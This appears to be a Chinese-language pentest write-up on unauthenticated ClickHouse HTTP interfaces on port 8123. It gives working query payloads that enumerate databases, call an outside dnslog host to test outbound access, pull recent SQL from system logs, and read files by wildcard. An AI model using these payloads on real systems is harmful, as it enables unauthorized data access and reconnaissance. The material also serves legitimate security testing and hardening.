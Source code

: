 # ClickHouse 8123端口

## 关于

<a-checkbox checked>默认情况下，clickhouse-server会在8123端口上监控HTTP请求（这可以在配置中修改）。</a-checkbox></br>

<a-checkbox checked>如果你发送了一个未携带任何参数的GET /请求，它会返回一个字符串 «Ok.»（结尾有换行）。可以将它用在健康检查脚本中。</a-checkbox></br>

<a-checkbox checked>如果你发送了一个未携带任何参数的GET /请求，它返回响应码200和OK字符串定义，可在[Http服务响应配置](https://clickhouse.tech/docs/zh/operations/server-configuration-parameters/settings/#server_configuration_parameters-http_server_default_response)定义(在末尾添加换行)</a-checkbox></br>

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628588206029-001c2f56-3c81-460f-9c1e-e9591ef9a545.png)

这里可以看到 ClickHouse 存在着的接口由于没有鉴权，则任意访问者都可以执行SQL语句获取数据



## 攻击方法

首先确定是否使用了 ClickHouse 数据库的接口

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628596147024-6b26b99d-8bdf-4a21-b240-f607be168a27.png)

根据文档得知，正常返回为 Ok. , 且存在 X-ClickHouse-Summary 作为返回包的 Header

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628589399544-1c658858-3310-4fcd-81d5-b50ed0f0696f.png)



测试是否可以执行SQL命令, 部分会开启身份验证导致未授权执行失败

```php
/?query=SHOW%20DATABASES
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628596162773-fc4906c3-fd7d-4ede-a8d7-84a448ff4204.png)

成功执行语句获取数据，执行其他命令探测出网

```php
/?query=SELECT%20*%20FROM%20url('http://jahl09.dnslog.cn','txt','column1%20UInt32')%20LIMIT%202
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628596284780-19788c3d-bd1b-4d95-97e9-6a9a16fd0138.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628596307830-d5958eea-ede0-4c17-8573-e77b07b362d4.png)

其中也可以查看 system库中的执行记录表来获取最近执行的所有SQL语句来快速定位可利用的信息

(获取敏感用户信息，数据库名以及数据表名)

```php
/?query=SELECT%20*%20FROM%20system.query_thread_log
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628597494586-5ea6c6ea-6526-44e0-b4b2-c92ae0fcb2d5.png)



由于默认配置中的可读路径默认 (`配置文件位置：/etc/clickhouse-server/config.xml`)

因此只能读取下面路径中的文件，当目标中曾在该路径导入文件且没有删除的情况下，可通过测试获取敏感文件信息，获取数据文件



<a-checkbox checked>/var/lib/clickhouse/user_files/</a-checkbox></br>

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628598316644-34da7b10-b2c6-45f1-a4ff-d5c11be372c7.png)

其中读取时可以利用通配符跳过不知道文件名的情况获取文件信息

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628600107499-7067f4c9-bc8a-4540-84e6-ceafd4dfdb42.png)

```php
/?query=SELECT%20*%20FROM%20file('*'%2C%20'CSV'%2C%20'column1%20String%2C%20column2%20String%2C%20column3%20String')%20LIMIT%203%3B"
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628600056235-beb60a43-c6bd-499c-8383-647185379ed1.png)